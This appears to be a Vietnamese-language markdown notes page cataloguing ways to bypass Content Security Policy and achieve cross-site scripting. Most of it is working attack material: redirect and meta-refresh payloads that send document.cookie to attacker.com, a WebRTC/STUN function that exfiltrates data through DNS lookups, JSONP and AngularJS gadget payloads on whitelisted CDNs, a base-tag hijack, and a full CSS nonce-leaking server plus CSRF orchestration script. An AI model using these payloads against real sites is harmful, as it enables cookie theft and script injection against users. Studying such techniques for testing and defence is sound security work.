


# Sau đây là những cách bypass SCP

## Unset header (PHP)

- Php có 1 vài trick để loại bỏ CSP ở phản hồi nó hoạt động ở 1 vài trường hợp
  - Nếu header CSP chứa kí tự `/n` , nó sẽ cảnh báo và bỏ toàn bộ header
  - Còn 1 cách khác mà không cần phải chén vào header bất cứ thứ gì đó là **Hãy làm cho php gửi 1 thứ gì đấy trước khi header được set** -> Ví dụ như Trigger **headers already sent** và loại bỏ toàn bộ header từ **http**
- [Sau đây là ví dụ về việc trigger warning bằng gửi quá nhiều parameters dẫn đến header chứa CSP bị bỏ qua -> XSS](https://x.com/pilvar222/status/1784619224670797947)

## Inject directives

- Giờ thì sẽ đến inject header
- Thêm 1 vài thứ thú vị vào header

```code
Content-Security-Policy: script-src https://trusted.com/INPUT/script.js
```

Exploit

```code
Content-Security-Policy: script-src https://trusted.com/ 'unsafe-inline' /script.js
```

- Nếu đầu vào của bạn sau directive thì việc ghi đè là vô nghĩa
- Tuy nhiên `style-src` và `script-src` có nhiều biến thể khác như là `style-src-elem` và `script-src-elem` ; nó cung cấp nhiều quyền hơn cho `<style>` và `<script>` . Thay vì thuộc tính `style=` và `onerror=` thì sẽ là [`style-src-attr`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/style-src-attr) và [`script-src-attr`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/style-src-attr)
- Những directive này là riêng biệt , nó cấp quyền thêm , setting thêm `unsafe-inline` cho phép mã độc thực thi

```code
Content-Security-Policy: script-src 'none'; script-src-elem 'unsafe-inline'
Content-Type: text/html

<script>alert(origin)</script>
```

## Exfiltrating with strict connect-src

- hừm Directive này cho phép host nào có thể kết nối , có nghĩa là ta không thể `fetch()` requets như bình thường khi host không nằm trong white list . Tuy nhiên có thể tận dụng **Origin** được phép để `fetch()` chuyển data sang origin đó , Sau đó lấy data sau .
- Có 1 cách khác là `redirect` `user` dùng `Javascript` , đương nhiên browser không chặn điều này
  - Sau đó ở `URL` mày cho cái data mà mày muốn lấy vào và nó sẽ được nhận ở request

```html
// Redirect via document.location: location =
`http://attacker.com/leak?${btoa(document.cookie)}` // Redirect via <meta /> tag
(only at start of page load): document.write(`<meta
  http-equiv="refresh"
  content="0; url=http://attacker.com/leak?${btoa(document.cookie)}"
/>`)
```

- Một cách khác nữa là dùng `WebRTC`
  - Cách này khá hiệu quả
  - Bởi `DNSlookup` không bị chặn , cho phép chèn dữ liệu thoải mái vào trường `subdomain`
  - [Dùng cái này để build DNS](https://github.com/projectdiscovery/interactsh#interactsh-client)
  - Chạy nó

```code
$ interactsh-client

[INF] Listing 1 payload for OOB Testing
[INF] ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online
```

- Sau đó WebRTC sẽ trích được data vào DNS

```code
function base32(s) {
  let b = "";
  for (let i = 0; i < s.length; i++) {
    b += s.charCodeAt(i).toString(2).padStart(8, "0");
  }
  let a = "abcdefghijklmnopqrstuvwxyz234567";
  let r = "";
  for (let i = 0; i < b.length; i += 5) {
    let p = b.substr(i, 5).padEnd(5, "0");
    let j = parseInt(p, 2);
    r += a.charAt(j);
  }
  return r.match(/.{1,63}/g).join(".");
}

async function leak(data) {
  let c = { iceServers: [{ urls: `stun:${base32(data)}.ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online` }] };
  let p = new RTCPeerConnection(c);
  p.createDataChannel("");
  await p.setLocalDescription();
}

leak("Hello, world! ".repeat(8));
```

Và ở phía DNS ta sẽ nhận được như sau :

```code!
[jbswY3dpfqqHo33snrSccICiMvwGY3zMeB3w64TMMqqsaSdfNRwg6LBao5xxe3d.eEeqEqzLMnrxSyIdXn5ZGyZbBEBEGK3dmN4WcA53pojWGIijAjbsWy3dPfQqHO3.3SNrScCIciMVwgY3zMEB3W64tmmqqSASDfnrWG6LbaO5xXe3DeEeQa.CkJbCs2q8GudlQGiTungUCqgux7BFhahq] Received DNS interaction (A) from 74.125.114.204
```

## Hosting JavaScript on 'self'

- Auke có thể upload file `.js`

```code!
/uploads/payload.js
alert()
```

```code
Payload
<script src=/uploads/payload.js></script>
```

- Tuy nhiên k dễ gì mà upload được `.js` vậy còn những đuôi khác ví dụ như `png` thì `Content-Type:` sẽ xuất hiện và xác định đó không phải là javascript -> ko thể thực thi



- Sẽ dựa vào `extension` để xác định `Content-type` tuy nhiên nếu không có `extension` trình duyệt sẽ đoán -> Nếu để đoán có thể sẽ trả về `text/plain, text/html` -> thực thi được js
- Để ngăn chặn việc đoán dùng `X-Content-Type-Options: nosniff` để xác định tệp thực sự là [`application/javascript` thực thi](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third_party/blink/common/mime_util/mime_util.cc#50) . Như vậy nếu `Content-Type` không có -> k thực thi js (tuân thủ tuyệt đối theo `Content-Type`)
- [Có 1 cách khác là dùng polyglot xử lí việc fillter extension](https://medium.com/@AhmadSopyan/file-upload-vulnerabilities-part-6-remote-code-execution-via-polyglot-web-shell-upload-1b5d66a3a207)
- Có cách khác thay vì store thì dùng reflect . Nếu dùng [`JSONP`](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) hoặc `callback endpoints` mà nó generate phản hồi thì có thể lợi dụng tạo ra mã js hợp lệ

Client request:

```code
GET /api/user?id=123&callback=MY_CALLBACK
```

Server response (Content-Type: application/javascript):

```code
js
MY_CALLBACK({"id":123,"name":"Alice"});
```
## CDNs in `script-src` (AngularJS Bypass + JSONP)
- Auke bỏ khác lâu giờ mới quay lại 
- Cái này cơ bản hiểu là CSP có thể cho các nguồn nhất định được thực thi và ta có thể trigger XSS từ các nguồn đó 
```code=
<!-- *.googleapis.com -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)"></script>
<!-- *.google.com -->
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>
<!-- ajax.googleapis.com (click) + maps.googleapis.com (no click) -->
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js></script>
<div ng-app ng-csp id=x ng-click=$event.view.alert($event.view.document.domain)></div>
<script async src=https://maps.googleapis.com/maps/api/js?callback=x.click></script>
<!-- cdnjs.cloudflare.com -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>{{$on.curry.call().alert($on.curry.call().document.domain)}}</div>
```
- Pattern thông thường được dùng để tạo môi trường thực thi JS là Angular 
- [Một số endpoint có thể được cho phép thực thi trên CSP](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)
- [Hoặc có thể dùng `script gadgets`](BypassCSP-By-ScriptGadget.pdf) có thể XSS được tùy vào framework 
  - 
- [Nơi hữu ích để kiểm tra CSP](https://cspbypass.com/)
- [Vào đây để tìm payload cho từng api mà CSP whitebox](https://github.com/google/security-research-pocs/blob/master/script-gadgets/bypasses.md)
## Redirect to unrestricted path 
- Vậy nếu CSP chỉ định 1 nguồn cụ thể mà nó lại không thể XSS được thì sao 
=> hãy dùng `redirect` => tải 1 library theo ý của mình 
Ví dụ ta có CSP như sau 
```code=
script-src 'self'
'nonce-ae692e51fd5d5528c59c78334c035454'
'unsafe-eval'
https://cdnjs.cloudflare.com/ajax/libs/Base64/1.3.0/base64.min.js;
```
Payload sẽ như sau 
```code=
<script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/htmx/1.9.12/htmx.min.js"></script>

```
hoặc
```code=
<script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js"></script>
<div ng-app ng-csp>{{$on.constructor('alert(1)')()}}</div>
```
=> Bởi khi `redirect` thì `CSP` sẽ chỉ kiểm với origin cụ thể là `https://cdnjs.cloudflare.com`
- [Bài mô phỏng cụ thể](https://joaxcar.com/blog/2024/05/16/sandbox-iframe-xss-challenge-solution/)

## Nonce without `base-src`
- Okke nếu fillter mỗi `nonce` thì sao 
```code!
Content-Security-Policy: script-src 'nonce-abc'
```
- Rất đơn giản hãy tải dùng `base` để tải Payload lên khi đó `/script` sẽ chạy payload của mình 

```code!
<body>
  INJECT_HERE
  <script nonce="abc" src="/script.js">
</body>
```
Inject `base` 
```code!
<body>
  <base href="https://attacker.com">
  <script nonce="abc" src="/script.js">
</body>
```
-> khi đó payload nằm ở `https://attacker.com/script.js`thực thi trên trang web nạn nhân 

## Nonce with `Caching` 
- [Quá dài và không thể hiểu chi tiết](https://jorianwoltjer.com/blog/p/research/nonce-csp-bypass-using-disk-cache)
- Đơn giản là ta có thể XSS được nhờ vào hai yều tố 
  - Leak được `nonce` 
  - `HTMLi` mà có thể thay đổi được `nonce`
```code
app.get('/leak.css', (req, res) => {
  const l = [..."abcdef0123456789"];
  const strings = l.flatMap(a => l.flatMap(b => l.map(c => a + b + c)));
  const css = `\
*{display: block}
${strings.map(s => `script[nonce*="${s}"]{--${s}:url(/l/${s})}`).join('\n')}
script {
  background: ${strings.map(s => `var(--${s},none)`).join(',')}
}
`;
  res.setHeader('Content-Type', 'text/css')
  res.send(css);
});
=>  leak nonce giờ cần gộp lại dùng 
function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for (let i = 0; i < arr.length; i++) {
      let isFound = false
      for (let j = 0; j < arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2]
        let prefix = arr[j][0] + arr[j][1]

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        return mergeWords(arr.filter(item => item !== arr[i]), arr[i])
      }
    }
  }

  let found = []
  for (let i = 0; i < arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]

    if (suffix === prefix) {
      found.push([arr.filter(item => item !== arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}
function combine(arr) {
  return mergeWords(arr, null).flat(99);
}

const nonce = combine(["a49", "a8d", "a8e", "a9b", "bca", "c5f", "c23", "ca8", "da9", "dda", "d6a", "d81", "e1c", "fd8", "1c2", "1c5", "137", "37d", "448", "48a", "491", "5fd", "6a4", "7dd", "8a8", "8d6", "8e1", "81c", "9bc", "913"]);
// ['448a8d6a49137dda9bca8e1c5fd81c23']
```

```code
function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}

onclick = async () => {
  w = window.open("", "w");  // Prepare a window named "w" for the form to CSRF into
  // Load target with CSS leaking nonce
  login_csrf(`<link rel="stylesheet" href="http://127.0.0.1:8000/leak.css">`);
  await sleep(1000);
  w.location = "http://localhost:3000/dashboard?xss";  // 1
  await sleep(1000);
  const nonces = await fetch("/nonce").then((r) => r.json());  // 2
  login_csrf(nonces.map((nonce) => `<iframe srcdoc="<script nonce='${nonce}'>alert(origin)<\/script>"></iframe>`).join(""));
  await sleep(1000);
  w.location = "http://localhost:3000/dashboard";  // 3
  await sleep(1000);
  w.location = "http://127.0.0.1:8000/back?n=3";  // 4
};

```